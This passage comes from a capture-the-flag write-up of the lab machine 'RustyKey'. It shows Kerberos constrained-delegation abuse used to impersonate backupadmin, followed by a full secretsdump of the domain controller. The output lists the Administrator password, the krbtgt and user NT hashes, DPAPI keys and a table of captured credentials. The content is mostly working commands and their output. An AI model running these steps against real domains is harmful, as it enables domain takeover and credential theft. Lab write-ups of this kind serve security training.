[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/DC.RUSTYKEY.HTB':

      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
[+] Ticket successfully imported!

```

and

```bash
➜  RustyKey echo -n "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" | base64 -d > backupadmin.kirbi
➜  RustyKey ticketConverter.py backupadmin.kirbi backupadmin.ccache
/usr/local/bin/ticketConverter.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'ticketConverter.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
➜  RustyKey export KRB5CCNAME=backupadmin.ccache 
➜  RustyKey klist
Ticket cache: FILE:backupadmin.ccache
Default principal: backupadmin@RUSTYKEY.HTB

Valid starting       Expires              Service principal
07/02/2025 04:11:54  07/02/2025 14:11:54  CIFS/DC.RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 07/09/2025 04:11:54
```

### with Linux abuse (more Easier)

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)"  getST.py -spn cifs/dc.rustykey.htb -impersonate backupadmin 'rustykey.htb/IT-COMPUTER3$:Rusty88!'                                                                                     
/usr/local/bin/getST.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'getST.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
```

now we can do full dump!!!

## Full-Dump

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" secretsdump.py -k -no-pass DC.rustykey.htb -dc-ip 10.10.11.75                         
/usr/local/bin/secretsdump.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'secretsdump.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3aac437da6f5ae94b01a6e5347dd920:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c74268fb0d2281f46aef4eba9cd553bbef21896b316407ae45ef212b185b299536547a7bd796da250124a6bb3064ae48ad3a3a74bc5f4d8fbfb77503eea0025b3194af0e290b16c0b52ca4fecbf9cfae6a60b24a4433c16b9b6786a9d212c7aaefefa417fe33cc7f4dcbe354af5ce95f407220bada9b4d841a3aa7c6231de9a9ca46a0621040dc384043e19800093303e1485021289d8719dd426d164e90ee3db3914e3d378cc9e80560f20dcb64b488aa468c1b71c2bac3addb4a4d55231d667ca4ba2ad36640985d9b18128f7755b25
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
[*] DefaultPassword 
RUSTYKEY\Administrator:Rustyrc4key#!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c06efaf194382750e12c00cd141d275522d8397
dpapi_userkey:0xb833c05f4c4824a112f04f2761df11fefc578f5c
[*] NL$KM 
 0000   6A 34 14 2E FC 1A C2 54  64 E3 4C F1 A7 13 5F 34   j4.....Td.L..._4
 0010   79 98 16 81 90 47 A1 F0  8B FC 47 78 8C 7B 76 B6   y....G....Gx.{v.
 0020   C0 E4 94 9D 1E 15 A6 A9  70 2C 13 66 D7 23 A1 0B   ........p,.f.#..
 0030   F1 11 79 34 C1 8F 00 15  7B DF 6F C7 C3 B4 FC FE   ..y4....{.o.....
NL$KM:6a34142efc1ac25464e34cf1a7135f34799816819047a1f08bfc47788c7b76b6c0e4949d1e15a6a9702c1366d723a10bf1117934c18f00157bdf6fc7c3b4fcfe
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f7a351e12f70cc177a1d5bd11b28ac26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f4ad30fa8d8f2cfa198edd4301e5b0f3:::
rustykey.htb\rr.parker:1137:aad3b435b51404eeaad3b435b51404ee:d0c72d839ef72c7d7a2dae53f7948787:::
rustykey.htb\mm.turner:1138:aad3b435b51404eeaad3b435b51404ee:7a35add369462886f2b1f380ccec8bca:::
rustykey.htb\bb.morgan:1139:aad3b435b51404eeaad3b435b51404ee:44c72edbf1d64dc2ec4d6d8bc24160fc:::
rustykey.htb\gg.anderson:1140:aad3b435b51404eeaad3b435b51404ee:93290d859744f8d07db06d5c7d1d4e41:::
rustykey.htb\dd.ali:1143:aad3b435b51404eeaad3b435b51404ee:20e03a55dcf0947c174241c0074e972e:::
rustykey.htb\ee.reed:1145:aad3b435b51404eeaad3b435b51404ee:4dee0d4ff7717c630559e3c3c3025bbf:::
rustykey.htb\nn.marcos:1146:aad3b435b51404eeaad3b435b51404ee:33aa36a7ec02db5f2ec5917ee544c3fa:::
rustykey.htb\backupadmin:3601:aad3b435b51404eeaad3b435b51404ee:34ed39bc39d86932b1576f23e66e3451:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
Support-Computer1$:1103:aad3b435b51404eeaad3b435b51404ee:5014a29553f70626eb1d1d3bff3b79e2:::
Support-Computer2$:1104:aad3b435b51404eeaad3b435b51404ee:613ce90991aaeb5187ea198c629bbf32:::
Support-Computer3$:1105:aad3b435b51404eeaad3b435b51404ee:43c00d56ff9545109c016bbfcbd32bee:::
Support-Computer4$:1106:aad3b435b51404eeaad3b435b51404ee:c52b0a68cb4e24e088164e2e5cf2b98a:::
Support-Computer5$:1107:aad3b435b51404eeaad3b435b51404ee:2f312c564ecde3769f981c5d5b32790a:::
Finance-Computer1$:1118:aad3b435b51404eeaad3b435b51404ee:d6a32714fa6c8b5e3ec89d4002adb495:::
Finance-Computer2$:1119:aad3b435b51404eeaad3b435b51404ee:49c0d9e13319c1cb199bc274ee14b04c:::
Finance-Computer3$:1120:aad3b435b51404eeaad3b435b51404ee:65f129254bea10ac4be71e453f6cabca:::
Finance-Computer4$:1121:aad3b435b51404eeaad3b435b51404ee:ace1db31d6aeb97059bf3efb410df72f:::
Finance-Computer5$:1122:aad3b435b51404eeaad3b435b51404ee:b53f4333805f80406b4513e60ef83457:::
IT-Computer1$:1123:aad3b435b51404eeaad3b435b51404ee:fe60afe8d9826130f0e06cd2958a8a61:::
IT-Computer2$:1124:aad3b435b51404eeaad3b435b51404ee:73d844e19c8df244c812d4be1ebcff80:::
IT-Computer3$:1125:aad3b435b51404eeaad3b435b51404ee:b52b582f02f8c0cd6320cd5eab36d9c6:::
IT-Computer4$:1126:aad3b435b51404eeaad3b435b51404ee:763f9ea340ccd5571c1ffabf88cac686:::

```

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| rr.parker | 8#t5HE8L!W3A | LDAP | starting | Dump BH data |
| IT-Computer3$ | Rusty88! | LDAP | timeroasting | Addself |
